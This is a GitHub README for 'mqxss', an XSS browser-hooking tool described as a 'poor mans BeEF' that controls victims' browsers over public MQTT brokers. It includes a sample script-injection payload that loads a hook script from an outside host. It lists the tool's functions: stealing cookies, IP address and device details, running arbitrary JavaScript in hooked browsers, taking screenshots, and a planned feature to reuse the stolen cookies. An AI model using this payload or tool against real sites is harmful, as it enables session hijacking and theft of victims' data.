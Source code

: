 # mqxss


**mqxss acts as a client to communicate with hooked browsers over MQTT**

![Screenshot from 2023-07-03 00-57-22](https://github.com/grampae/mqxss/assets/36344197/72bda6c6-7e27-4269-8bc3-19d7b171a76a)



I created this without a lot of bells and whistles so that the user could send raw JS to the hooked browser.  One might even consider this to be a poor mans BEeF as no server is required, you can use a public broker (however currently uses obfuscation, encryption is in the works).

Hooked browsers will communicate in the MQTT topic on the broker you specify, there are many public/free brokers to test this with.

Currently all that is needed is to set the desired MQTT broker, port and base topic within the x.js file and then connect to the same broker with the client.  The x.js file has the Paho MQTT JS library included within it.

Then send your XSS payload to the victim while the mqxss client is running, ex: '"><script src=https://example.com/x.js></script> or something similar, if vulnerable you should get a notification saying the browser has connected with some basic details including cookies etc.  Future version will generate JS payload so that you don't have to manually set it with broker information.
 
![a](https://github.com/grampae/mqxss/assets/36344197/20096c91-2e9e-4302-b5a9-e2edd665d382)

 
**Features:**

- **currently only works with mqtt servers that use secure websockets however future version will supports mqtts as well.**
- **view hooked browsers**
- **when hooked it grabs cookies, ip, device type, user agent**
- **view past hooked (unhooked) browsers**
- **send js to currently hooked browsers and get response if available**
- **pushover notification**
- **screenshot of hooked browser**

**Todo:**

- [ ] Encryption (currently just obfuscated)
- [ ] Set user , password  for brokers that require it at runtime
- [ ] Generate js payload at runtime to hook browsers with
- [ ] Open browser with hooked browser cookies for convenience
